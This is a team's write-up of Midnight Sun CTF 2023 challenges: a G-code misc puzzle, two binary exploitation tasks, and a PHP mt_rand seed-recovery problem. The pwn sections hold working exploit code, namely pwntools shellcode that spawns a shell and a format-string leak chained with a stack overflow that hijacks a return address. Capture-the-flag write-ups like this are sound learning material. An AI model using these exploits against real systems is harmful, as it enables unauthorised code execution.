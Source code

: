 # Midnight Sun CTF 2023 Writeup
It's not really our lucky day when we cannot achieve top 30 - 40. My team on 60th rank and we didn't do much problem. But still, i decided to post this writeup to share with you what challenge I have done and how I did that.
Note: Please forgive me if my potato English make you having trouble reading it :) 

### Whistle - MISC
This challenge give us a file compose from G-Code ( a languague in CNC programming i guessed ) . If we run it (online tools), we will get a flag which be redacted - The flag is cover by many "redacted". The first idea came in my mind is to split the file into many part. By this way, it reduce "redacted" cover the flag and we can see the flag easily.
``` flag : midnight{router_hacking?}```

### SPD_A , SPD_B - SPD
SPD_A's solution:
```python
from pwn import *
s = remote('spda-1.play.hfsc.tf', 40001)
#s = process(executable = './spd_a', argv = [])
#s = gdb.debug('./spd_a', gdbscript = 'break *main+727')
payload = b"\x48\x31\xC0\x50\x48\xB8\x2E\x63\x68\x6F\x2E\x2E\x72\x69\x48\xBB\x01\x01\x01\x01\x01\x01\x01\x01\x48\x31\xD8\x50\x48\x31\xF6\x48\x31\xD2\x48\x89\xE7\x48\x31\xC0\xB0\x3B\x0F\x05"
s.send(payload)
s.interactive()
```

SPD_B's solution ( I solved after CTF end, really sad T_T )
```python
from pwn import *
#s = gdb.debug('./spd_b', gdbscript = 'break *guess+137')
s = process(executable='./spd_b', argv = [])

payload = b"%38$x.%39$x"
s.recvuntil(b"guess: ")
s.sendline(payload)
msg = s.recvuntil(b"is not my number :(").decode()
ebp, addr = msg.replace("is not my number :(", "").split(".")

ebp = int(ebp, 16)
addr = int(addr, 16)
newaddr = addr - 0x1479 + 0x138d
ebp = ebp - 64
print("ebp found:", hex(ebp))
print("win addr found:", hex(newaddr))


payload = "%29477c%40$n"
s.sendline(payload)
s.recvuntil(b"number :(")

payload = b"a"*0x88 + b"aaaa" + p64(newaddr)
s.sendline(payload)
s.interactive()
```

### MT_RANDOM - crypto
The main idea for this problem is to recover MIN, MAX, GAPSTART, GAPEND, after that, it's just a normal bruteforce seed problem. So how can we do that?
If you repeat taking samples, you will notice that the sample sequence has a limit : maximum number is not greater than 256, minimum number is not lower than 1. So right now we have recoverd 2 nunbers. What about the other 2? Well, it's actually easy than you think. We just need to find, from 1 to 256, which number is missing, as the statement 
```php
if ($rand_num >= $gap_start) {
        $rand_num += ($gap_end - $gap_start);
    }
```
moving all number bigger than GAPSTART to x + GAPEND - GAPSTART, creating a gap in the sequence. The first missing number will be GAPSTART, and the last missing number + 1 will be the GAPEND. One thing to notice that, some number can be randomized by 2 different seed, so to make sure you get the right flag, you have to run it 15 times.
source:
```php
<?php
// Enter your code here, enjoy!
$max = 256;
$min = 1;
$gap_start = 100;
$gap_end = 150;
$sample = [226, 45, 67, 251, 45, 181, 255, 226, 216, 226, 225, 251, 67, 29, 226, 255, 153, 29, 181, 191, 46, 218];

// $array = array("1" => "PHP code tester Sandbox Online",
//     "emoji" => "😀 😃 😄 😁 😆", 5 , 5 => 89009,
//     "Random number" => rand(100,999),
//     "PHP Version" => phpversion()
// );

// foreach( $array as $key => $value ){
//     echo $key."\t=>\t".$value."\n";
// }
function non_continuous_sample($min, $max, $gap_start, $gap_end) {
    $rand_num = mt_rand($min, $max - ($gap_end - $gap_start));
    if ($rand_num >= $gap_start) {
        $rand_num += ($gap_end - $gap_start);
    }
    return $rand_num;
}

$preflag = [109, 105, 100, 110, 105, 103, 104, 116];
$seed = -1;
for($testseed = 0; $testseed <= 10000; $testseed ++)
{
	$ch = true;
	for($i = 0; $i<8; $i++)
	{
		mt_srand($testseed + $preflag[$i]);
		if (non_continuous_sample($min, $max, $gap_start, $gap_end) != $sample[$i])
		{
			$ch = false;
			break;
		}
	}
	if ($ch)
	{
		$seed = $testseed;
		break;
	}
}
echo $testseed,"\n";
$flag=[];
for($i = 0; $i < 22; $i++)
{
	for($flagchar = 32; $flagchar < 128; $flagchar++)
	{
		mt_srand($seed + $flagchar);
		if (non_continuous_sample($min, $max, $gap_start, $gap_end) == $sample[$i])
		{
			$flag[] = $flagchar;
			break;
		}
	}
}

for($i = 0; $i < 22; $i++)
{
	echo $flag[$i]," ";
}
```